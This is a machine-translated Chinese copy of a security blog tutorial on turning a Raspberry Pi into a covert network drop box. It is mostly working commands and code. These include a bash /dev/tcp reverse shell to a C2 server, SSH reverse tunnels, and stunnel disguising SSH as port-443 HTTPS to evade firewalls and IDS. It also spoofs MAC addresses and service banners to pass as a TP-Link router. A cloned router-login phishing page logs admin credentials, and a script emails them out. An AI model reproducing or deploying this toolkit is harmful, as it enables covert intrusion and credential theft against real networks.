





# 用树莓皮渗入本地网络(创建隧道)

> 原文：<https://infosecwriteups.com/infiltration-in-local-network-with-raspberry-pi-creating-tunnel-c72b0880146d?source=collection_archive---------2----------------------->


覆盆子 Pi3，带 3D 打印表壳

我将向你展示，我是如何用 raspberry Pi 制作黑客小工具的，你可以通过以太网电缆或 Wi-Fi 适配器将其渗透到网络中。这个小工具可以通过电源适配器或电池供电，这使得它更加便携。一旦连接到网络，它会自动创建到 C2 服务器的加密隧道(SSH/TLS，端口 443 ),因此您可以在世界的任何地方通过 shell 控制这个小工具。除了避免容易发现，我试图掩盖小工具，看起来像路由器。我更改了 MAC 地址，隐藏了 SSH 版本，并将 apache 服务名改为 routers one。还包括真实路由器登录设置页面的钓鱼页面。它的证书通过电子邮件发送。Gadget 还包括 Wi-Fi 接入点，让您可以选择使用 ssh 协议通过电话或 PC 来控制它。这是实际的情况下，如果你想渗透小工具通过无线网络，你不知道它的密码，直到渗透测试开始现场。这个小玩意很适合红队队员。

让我们从解释我是如何做到的开始。

**硬件:**

我使用的是 Raspberry Pi 3(安装了 Linux Raspbian bullseye Lite)，它内置了以太网适配器(eth0)和 Wi-Fi 适配器(wlan0)。因此，任何这种适配器被用来连接在受攻击的网络。然后，我添加了外部 USB 天线，这是用于 Wi-Fi 接入点(wlan1)。为了能够用电池供电，我添加了 Lipo 电池充电器 TP4056 和 DC-DC 升压转换器。当然，也可以通过适配器供电。我还添加了电源按钮、LED 状态和禁用 Wi-Fi 接入点的按钮。所有的东西都被放进了围栏里，这是我 3D 设计和制作的。

**候机楼:**

**1。将小工具连接到 C2 服务器**

我将向您展示执行隧道的三种不同方式。通过 TCP 协议、SSH 协议和 SSH/SSL 隧道。TCP 协议是技术上最简单的方法，而 SSH 和 SSH/SSL 稍微难一点。但是不要害怕这不是一门火箭科学。

**方法 1 —使用 TCP 协议创建隧道**

这是在 Raspberry Pi 和 C2 服务器之间创建隧道的最简单的方法，因此你可以在服务器上控制 Pi。

在树莓 Pi 和 C2 服务器上，我们只需要一行命令。

**关于树莓派:**

```
sudo bash -i >& /dev/tcp/<C2 Server IP>/5555 0>&1
```

**在 C2 服务器上:**

```
nc -vv -l -p 5555
```



我会使用这种方法，当我知道攻击网站没有任何系统管理员，也没有在安全方面投入太多精力。您需要知道 TCP 流量是不加密的，因此很容易被捕获和检测到。

因此，在接下来的文章中，我将向您展示一种使用 SSH 协议的稍微安全的方法。一旦 Raspberry Pi 和 C2 服务器之间建立了连接，它们之间传输的数据就会被加密。

**方法 2 —使用 SSH 协议创建隧道**

为此，我们需要创建基于密钥的认证，这将使我们能够获得 Raspberry Pi 和 C2 服务器之间的 SSH 连接。

在 Raspberry Pi 上，我们将使用 **ssh-keygen** ，它将创建公钥和私钥:

```
sudo ssh-keygen -f ~/.ssh/vps -t rsa -N ""
```

复制公钥的输出(本例中公钥是 **vps.pub** )并将其内容粘贴到 **/root/中的 **authorized_keys** 中。C2 服务器上的 ssh** 目录，并重新启动 ssh 服务:

```
service ssh restart
```

测试 ssh 连接:

```
sudo ssh -i /home/pi/.ssh/vps root@<C2 Server IP>
```

因此，由于 SSH 协议设置正确，我们可以通过运行以下命令将所有连接从 Raspberry Pi 隧道传输到 C2 服务器:

**关于树莓派:**

```
sudo ssh -i /root/.ssh/vps -nNT -R 5555:localhost:22 <C2 Server IP>
```

**在 C2 服务器上:**

```
ssh pi@localhost -p 5555
```



好的。现在，由于我们经历了两种不同的隧道方法(TCP 和 SSH 协议)，我将简要地向您解释，为什么我包括和使用下一种方法(SSH/SLL)。

让我们想象一下，我们将攻击某个大公司，该公司的 IT 部门也有系统管理员，他们使用某种 IDS、IPS 和 FW 来进行深度数据包检查、定期扫描等。在这类公司中，网络通常会阻塞端口 22。此外，如果您通过端口 443 进行 SSH，他们的系统会识别并丢弃流量。这就是我选择 stunnel 的原因，这样我就可以建立看起来像 SSL 流量的 SSH 连接隧道。我在端口 443 上建立了 SSL 隧道，所以它看起来像正常的 SSL 流量，因此 FW 将允许流量。

**方法 3 —使用 SSH/SSL 创建隧道**

首先，我们需要在 Raspberry Pi 上生成私有和公共密钥，并将公共密钥放在 C2 服务器上，就像我们在前面的方法(SSH)中所做的那样。

**设置树莓 Pi:**

**安装 stunnel:**

```
apt-get install stunnel4
```

**安装 autosh:**

```
apt-get install autossh
```

之后，我们需要创建 stunnel 配置文件**/etc/stunnel/stunnel . conf**并添加以下内容:

```
pid = /var/run/stunnel.pid
client=yes
[ssh]
accept = 443
connect = <C2 Server IP>:443
```

我们需要确保隧道将自动启动。在 **/etc/default/stunnel4** 文件中添加以下内容:

```
ENABLED=1
```

然后，我们需要通过创建文件**/etc/network/if-up . d/auto shh**，使 Raspberry Pi 能够在网络接口出现时自动建立 SSH 隧道。添加以下内容:

```
#!/bin/bash
sudo su -c "autossh -p 443 -f -N -R *:2222:localhost:22 root@localhost -o LogLevel=error -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no" pi
```

并且在启动时启动并启用服务:

```
sudo systemctl start stunnel4
sudo systemctl enable stunnel4
sudo systemctl daemon-reload
```

**设置 VPS 服务器:**

**安装 stunnel:**

```
apt-get install stunnel4
```

**开放端口:**

```
ufw enable
ufw allow 22
ufw allow 443
```

由于我们将在 SSL (HTTPS)流量上隧道传输 SSH 流量，我们需要生成另一个密钥，用于加密和解密 SSL 流量:

```
openssl genrsa 2048 > /etc/stunnel/stunnel.key
openssl req -new -key /etc/stunnel/stunnel.key -x509 -days 365 -out /etc/stunnel/stunnel.crt
cat /etc/stunnel/stunnel.crt /etc/stunnel/stunnel.key > /etc/stunnel/stunnel.pem
```

之后，我们需要创建 stunnel 配置文件**/etc/stunnel/stunnel . conf**，并添加以下内容:

```
pid = /var/run/stunnel.pid
cert = /etc/stunnel/stunnel.pem
[ssh]
accept = 443
connect = 127.0.0.1:22
```

我们需要确保隧道将自动启动并监听端口 443。在 **/etc/default/stunnel4** 文件中添加以下内容:

```
ENABLED=1
```

启动时也启动并启用服务:

```
sudo systemctl start stunnel4
sudo systemctl enable stunnel4
sudo systemctl daemon-reload
```

最后，重启 C2 服务器。

就是这样。要控制 Raspberry Pi，请在 C2 服务器上运行以下命令:

```
ssh -p 2222 pi@localhost
```



我向你解释了三种不同的方法，你可以通过 C2 服务器远程控制 Raspberry Pi，从而在世界的任何地方控制它。我的建议是在任何情况下都坚持最后一种 SSH/SSL 方法。

当你潜入某个严肃的网络，那里有很好的安全团队，系统管理员以正确的方式工作，这只是一个时间问题，他们会发现你的黑客工具。我的意思是，当系统管理员定期扫描网络时，他发现了新设备 raspberry pi。我想我们都可以想象他脸上的表情。所以把圆周率伪装成别的东西是非常聪明的；像打印机，路由器，windows pc 等。这样肯定会引发更少的关注。

在我的例子中，我把 Raspberry pi 伪装成路由器的样子。它看起来像 TP-Link 路由器。我还为路由器设置页面创建了钓鱼页面，目的是捕捉管理员的凭证，以防他/她找到我并试图登录。我还设置了将收集到的凭证发送到我的电子邮件中。

**首先，我将两个适配器(eth0 和 wlan1)的 MAC 地址转换为通用的 TP-Link 地址:**

```
sudo apt install macchanger
```

我创建了 bash 脚本( **mac.sh** )并放入 **/etc/rc.local** ，所以它会在每次引导或重启时更改 mac 地址。

```
#!/bin/bash
sudo ifconfig eth0 down
sudo macchanger -m f8:d1:11:2a:24:a3 eth0
sudo ifconfig eth0 up

sudo ifconfig wlan1 down
sudo macchanger -m f8:d1:11:2a:24:a4 wlan1
sudo ifconfig wlan1 up
```

**改变端口 22 和 80 上的服务名称**

对于端口 22，你应该在 ssh 上隐藏 debian 版本，这样路由器和 debian 发行版之间的关联就不会看起来可疑。为此，在 **/etc/ssh/sshd_config** 中添加以下行

```
DebianBanner no
```

接下来，更改 apache2 服务名。为什么我们要改变它。当您在路由器上执行扫描时，通常不会看到 apache 服务在端口 80 上运行。所以我把它改成了**TP-LINK wr 841n WAP http config**。

```
sudo apt install apache2
sudo apt install -y php
sudo apt install -y php-{common,mysql,xml,xmlrpc,curl,gd,imagick,cli,dev,imap,mbstring,opcache,soap,zip,intl}
```

```
sudo systemctl restart apache2
```

```
sudo apt install libapache2-mod-security2
sudo a2enmod security2
```

在文件**/etc/Apache 2/conf-enabled/security . conf**中添加/更改以下内容:

```
ServerTokens Full
SecServerSignature "TP-LINK WR841N WAP http config"
ServiceSignature Off
```

**创建钓鱼页面—路由器设置页面**

使用 WebScrpBook 插件捕获页面源代码，并将其放入 **/var/www/html** 。

在那之后修改了**index.html**的文件。您应该通过在表单部件中添加/更改 action 来修改它(action="action.php ")。

创建**action.php**文件并保存在 **/var/www/html** 中。

```
<?php
$location='/error';
header("Location: " . "http://" . $_SERVER['HTTP_HOST'] . $location);
$handle = fopen("pass.txt", "a");
foreach($_POST as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n\n\n\n");
fclose($handle);
exit;
?>
```

因此，在这段代码中，你可以看到登录后，它会将你重定向到 **/error** 文件夹。在此文件夹中，您可以创建新的 index.html 文件**，该文件将显示您无权访问此路由器。所有采集的凭证将保存在 **pass.txt** 文件中。**

你可以在我的[**github 页面**](https://github.com/pr0xy-8L4d3/TP-Link_phishing_page) 找到整个钓鱼页面 TP-Link 路由器。



**设置电子邮件以接收收集的凭证**

要在您的电子邮件中接收收集的凭据，您可以使用 Msmtp (SMTP)。

现在，您需要创建脚本，并使其在启动时运行，它将每 20 秒检查一次 pass.txt 文件是否存在，如果存在，它将从中提取用户名和密码并发送到您的电子邮件。

```
#!/bin/bash
while sleep 20
do
if [ -f /var/www/html/pass.txt ]
then grep -e user -e pass /var/www/html/pass.txt | msmtp - debug - from=default -t example@email.com
rm -f /var/www/html/pass.txt
fi
done
```

**创建 Wi-Fi 接入点**

```
sudo git clone https://github.com/oblique/create_ap
cd create_ap
sudo make install
```

要创建 WI-Fi 接入点，请运行以下命令:

```
sudo create_ap -n wlan1 MyAccessPoint MyPassPhrase --no-virt
```

为了在每次启动时创建 AP，我创建了服务**/etc/systemd/system/AP . service**:

```
Unit]
Description=Run script with systemd
[Service]
ExecStart=sudo create_ap -n wlan1 MyAccessPoint MyPassPhrase --no-virt
Restart=always
TimeoutStartSec=20
RestartSec=20
[Install]
WantedBy=multi-user.target
```

要启用服务运行:

```
sudo systemctl enable ap.service
sudo systemctl daemon-reload
```

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！